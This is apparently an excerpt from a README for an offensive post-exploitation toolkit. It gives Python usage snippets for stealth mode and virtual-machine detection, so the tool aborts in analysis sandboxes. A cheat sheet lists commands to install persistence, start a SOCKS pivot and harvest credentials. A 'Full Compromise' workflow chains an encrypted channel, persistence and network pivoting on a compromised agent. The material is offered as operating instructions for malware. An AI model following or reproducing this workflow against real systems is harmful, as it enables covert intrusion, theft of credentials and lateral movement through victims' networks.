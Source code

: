 ### Stealth & Evasion
```python
from advanced_stealth_evasion import AdvancedStealthManager

# Enable all stealth features
stealth = AdvancedStealthManager()
stealth.enable_full_stealth()

# Check for VM
vm_check = stealth.check_virtualization()
if vm_check['is_virtual_machine']:
    print("⚠️ Running in VM - abort!")
```

## 📊 Command Cheat Sheet

| Feature | Command | Output |
|---------|---------|--------|
| Test AI Detection | `python advanced_ai_detection.py` | Demo threat analysis |
| Test Encryption | `python advanced_crypto_channel.py` | Demo encrypted session |
| Test Persistence | `python advanced_persistence.py` | Install persistence |
| Test Pivoting | `python advanced_network_pivoting.py` | Start SOCKS proxy |
| Test Credentials | `python advanced_credential_harvester.py` | Harvest creds |
| Test Stealth | `python advanced_stealth_evasion.py` | Enable evasion |
| Full Dashboard | `python advanced_dashboard_integration.py` | Test all features |

## 🎯 Common Workflows

### Workflow 1: Full Compromise
```python
from advanced_dashboard_integration import AdvancedDashboardIntegration

dashboard = AdvancedDashboardIntegration()
dashboard.initialize_modules()

# 1. Establish encrypted channel
dashboard.establish_encrypted_channel('agent_001')

# 2. Deploy persistence
dashboard.deploy_persistence('agent_001')

# 3. Create pivot
dashboard.create_network_pivot('agent_001')

# 4. Monitor with AI
assessment = dashboard.analyze_agent_action('agent_001', action_data)
```

